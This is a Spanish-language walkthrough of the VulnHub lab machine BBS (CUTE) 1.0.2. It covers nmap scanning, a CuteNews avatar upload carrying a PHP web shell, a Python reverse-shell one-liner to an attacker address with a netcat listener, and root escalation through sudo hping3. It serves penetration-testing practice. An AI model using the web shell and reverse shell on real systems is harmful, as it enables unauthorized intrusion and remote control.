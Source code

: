 <h1 align="center">
<br>
  <img src="https://media1.tenor.com/images/30b8dc5259183e941fff4ca89ee171b2/tenor.gif?itemid=15749033" alt="Front-End Checklist" width="200">
  <br>
  BBS (CUTE): 1.0.2
  <br>
</h1>

<h4 align="center">Maquina creada por foxlox</h4>
<h4 align="center">Aquí puedes descargarte la <a href="http://www.vulnhub.com/entry/bbs-cute-102,567/">máquina</a> y ver una descripción de ella</h4>

---
# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Web](#web)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Web](#web-1)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Remote Code Execution](#remote-code-execution)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#sudo--l)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [HPING3](#hping3)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.56.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.56.101```

Para ver si esos puertos son vulnerables usaremos este comando:

```nmap -Pn -T4 -p 80,88,110,995 --script vuln 192.168.56.101```

### Web

Iremos a la pagina **index.php** y usaremos **Ctrl+U** para ver el código fuente, veremos que el captcha tiene una .php y ademas veremos la versión del **Cutenews**

<img src="https://i.gyazo.com/ec8dc1b59c4ed97bf2bea3cf8ba8a6b8.png">

## Búsqueda de vulnerabilidades

### Web
Después de esto nos registraremos y buscaremos un exploit para esa versión del **Cutenews**

Encontramos este [exploit](https://www.exploit-db.com/exploits/48800) y nos aprovechamos del payload para meterlo como php en el avatar:

```
GIF8;
<?php system($_REQUEST['cmd']) ?>
```

> El **GIF8;** es para que tenga un tamaño y sea aceptado como avatar

## Explotación de vulnerabilidades

### Remote Code Execution

Para obtener la ejecución de código remoto iremos a esta página web para utilizar el exploit anteriormente visto:

```http://192.168.56.101/uploads/avatar_jose_script.php?cmd=whoami```

Gracias a esto somos **www-data**

### Reverse Shell

Ahora buscaremos una [reverse shell en python](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)para tener permisos como usuario.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Esto lo añadimos a la url anterior tal que asi: **?cmd=AQUI_LA_REVERSE_SHELL**

Por último abriremos un puerto para recibir la respuesta de la reverse shell:

```rlwrap nc -nvlp 1234```

## Post-explotación

Para tener una shell interactiva usaremos este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(root) NOPASSWD: /usr/sbin/hping3 --icmp
```

## Explotación de vulnerabilidades

### HPING3

Aquí tienes una [web](https://tools.kali.org/information-gathering/hping3) donde explica las utilidades del hpin3.

Para tener root usaremos el comando tal cual y entraremos:
```sudo /usr/sbin/hping3 --icmp```

## Información Adicional

Páginas web utilizadas:

- [Exploit](https://www.exploit-db.com/exploits/48800) - Exploit Remote Code Execution del CuteNews 2.1.2.

- [Reverse Shell](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) - Cheat Sheet de reverse shells.

- [HPIN3](https://tools.kali.org/information-gathering/hping3) - Descripción del paquete hping3.


**[⬆ back to top](#-----bbs-cute-102-)**
